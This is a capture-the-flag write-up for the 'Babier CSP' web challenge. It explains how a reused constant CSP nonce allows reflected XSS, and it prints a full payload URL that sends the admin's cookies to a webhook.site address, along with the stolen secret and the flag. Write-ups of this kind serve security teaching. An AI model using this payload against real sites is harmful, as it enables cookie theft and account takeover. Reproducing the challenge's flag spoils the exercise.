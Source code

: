 # Babier CSP
### Made by: notdeghost

Challenge text:
```
Baby CSP (link to JustCTF's Baby CSP challenge) was too hard for us, try Babier CSP.

babier-csp.dicec.tf

Admin Bot (link to admin bot)

The admin will set a cookie secret equal to config.secret in index.js.
```
We were also given the file [index.js](index.js)

The website was extremely simple, with an href that said `View Fruit`. In the site's source there's a JavaScript event that that sets the href's link location to the current website + `?name=` and a random fruit. If we change the name query ourselves, we see that the website displays it.

![Custom name parameter](website.png)

If we try to change the name to a simple `<scrip>alert(1);</script>` it won't work due to the website's strict content security policy. As we see in the server's source, it only allows scripts with a nonce by setting the CSP header. By looking at the source you may however notice a slight misconfiguration, the nonce is a constant, which means we can simply add the nonce to our payload. The JavaScript on the website has the constant nonce `LRGWAXOY98Es0zz0QOVmag==`, so by adding `nonce="LRGWAXOY98Es0zz0QOVmag=="` to our script tag we can execute JavaScript. Now we just need to send a URL with an XSS to the admin bot, and we will get the admin's cookies.

Here's the final URL: `https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%22LRGWAXOY98Es0zz0QOVmag==%22%3Ewindow.location=%27https://webhook.site/c0b95a39-1d3f-4636-bcdb-6816c1908c05?c=%27%2Bdocument.cookie;%3C/script%3E`, it sets window.location to our webhook with the GET parameter c as the document.cookie. On [webhook.site](https://webhook.site/) we see the cookie `secret=4b36b1b8e47f761263796b1defd80745`.

If we go to `https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/` we get the flag `dice{web_1s_a_stat3_0f_grac3_857720}`. 
